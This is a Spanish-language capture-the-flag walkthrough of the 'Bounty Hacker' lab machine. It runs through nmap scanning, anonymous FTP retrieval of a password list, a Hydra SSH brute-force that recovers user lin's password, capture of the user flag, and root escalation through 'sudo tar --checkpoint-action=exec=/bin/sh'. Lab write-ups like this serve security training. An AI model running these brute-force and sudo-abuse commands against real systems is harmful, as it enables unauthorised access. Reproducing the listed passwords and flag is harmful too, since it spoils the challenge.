

La máquina Bounty Hacker es una máquina de dificultad fácil que se centra en la obtención de acceso remoto mediante credenciales filtradas y en una escalada de privilegios local mediante el abuso de comandos con permisos especiales.
#nmap -sC -sV -T5 --open 10.10.214.43
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-05 11:07 AST
Nmap scan report for 10.10.214.43
Host is up (0.24s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.2.29.254
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 3
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r-- 1 ftp ftp 418 Jun 07 2020 locks.txt
|_-rw-rw-r-- 1 ftp ftp 68 Jun 07 2020 task.txt
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
| 256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_ 256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Durante la fase de escaneo se identificaron tres servicios accesibles en la máquina objetivo: FTP, SSH y un servidor web. El servicio FTP permite conexión anónima y contiene archivos visibles que podrían revelar información sensible, como nombres de usuario o contraseñas. Esto representa un posible vector de entrada inicial.
El servicio SSH está disponible y ejecuta una versión de OpenSSH asociada a Ubuntu. Aunque no presenta vulnerabilidades evidentes a simple vista, podría permitir acceso si se descubren credenciales válidas.
Por último, el servidor web está funcionando con Apache sobre Ubuntu. La página principal no contiene título, lo que sugiere que podría estar vacía o ser una configuración básica sin contenido real. Será importante investigar si hay rutas ocultas o archivos interesantes accesibles a través del navegador.
#ftp 10.10.214.43
Connected to 10.10.214.43.
220 (vsFTPd 3.0.3)
Name (10.10.214.43:agente0): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||59549|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r-- 1 ftp ftp 418 Jun 07 2020 locks.txt
-rw-rw-r-- 1 ftp ftp 68 Jun 07 2020 task.txt
226 Directory send OK.
ftp> mget *
mget locks.txt [anpqy?]? y
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |***********************************| 418 7.65 KiB/s 00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (1.41 KiB/s)
mget task.txt [anpqy?]? y
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |***********************************| 68 65.16 KiB/s 00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.27 KiB/s)
Al conectarse al servicio FTP, se confirma que el acceso anónimo está habilitado, lo que permite la entrada sin necesidad de credenciales. Dentro del directorio principal, se listan dos archivos disponibles para su descarga: locks.txt y task.txt. Ambos están accesibles con permisos de lectura para cualquier usuario.
#cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.
-lin
┌─[root@parrot]─[/home/agente0]
└──╼ #cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
El archivo task.txt contiene una breve nota con dos puntos que parecen una especie de lista de tareas. Aunque en apariencia no revela información técnica directa, el hecho de que esté firmado por un usuario llamado lin sugiere que este podría ser un nombre de usuario válido en el sistema. Esta pista será útil al momento de intentar autenticarse por otros servicios como SSH.
Por otro lado, el archivo locks.txt contiene una larga lista de cadenas que tienen el formato típico de contraseñas. Muchas de ellas comparten patrones relacionados con la palabra "RedDragonSyndicate", lo cual podría indicar un enfoque temático o un conjunto de contraseñas comunes utilizadas por el mismo usuario. Esto proporciona una excelente oportunidad para realizar un ataque de fuerza bruta o autenticación masiva usando estas contraseñas, especialmente si se combinan con el usuario lin mencionado anteriormente.
#hydra -l lin -P locks.txt ssh://10.10.214.43
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-05 11:18:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.214.43:22/
[22][ssh] host: 10.10.214.43 login: lin password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Con el usuario lin identificado previamente en el archivo task.txt y una lista considerable de posibles contraseñas extraída de locks.txt, se procede a realizar un ataque de fuerza bruta contra el servicio SSH expuesto.
Utilizando una herramienta automatizada de cracking, se prueba cada contraseña de la lista contra el usuario lin. Tras un breve proceso, se logra un acceso exitoso con la contraseña RedDr4gonSynd1cat3, lo que confirma la validez tanto del usuario como de la fuga de credenciales encontrada en el servicio FTP.
#ssh lin@10.10.214.43
The authenticity of host '10.10.214.43 (10.10.214.43)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.214.43' (ED25519) to the list of known hosts.
lin@10.10.214.43's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
83 packages can be updated.
0 updates are security updates.
Last login: Sun Jun 7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
Una vez identificadas las credenciales válidas, se establece una conexión SSH con el usuario lin. El sistema operativo es Ubuntu 16.04.6 LTS, una distribución antigua que podría presentar oportunidades para escalar privilegios más adelante.
El acceso confirma que el usuario lin tiene una sesión activa y funcional. Navegando por su directorio personal, en la carpeta Desktop se encuentra el archivo user.txt, el cual contiene la primera flag del reto.
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User lin may run the following commands on bountyhacker:
(root) /bin/tar
lin@bountyhacker:~/Desktop$
Con el acceso SSH establecido, el siguiente paso es identificar posibles formas de escalar privilegios. Al revisar los permisos sudo disponibles para el usuario lin, se revela que tiene la capacidad de ejecutar el comando tar como root, sin restricciones sobre parámetros.

Tras descubrir que el usuario lin puede ejecutar el binario tar como root mediante sudo, se recurre a GTFOBins, una base de datos ampliamente utilizada por pentesters para encontrar formas de abuso de binarios comunes con privilegios elevados.
Buscando el binario tar en GTFOBins, se confirma que existe una técnica documentada para obtener una shell como root cuando se ejecuta con sudo. Esta validación externa asegura que el binario es explotable de forma directa y sin necesidad de scripts adicionales o configuraciones complejas.
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whomai
/bin/sh: 1: whomai: not found
# whoami
root
# cd /root
# ls
root.txt
Aplicando la técnica obtenida desde GTFOBins, se ejecuta el binario tar con una opción especial (--checkpoint-action=exec=/bin/sh) que permite invocar una shell durante el proceso de archivado. Dado que este comando se ejecuta con sudo, la shell obtenida se ejecuta con privilegios de root.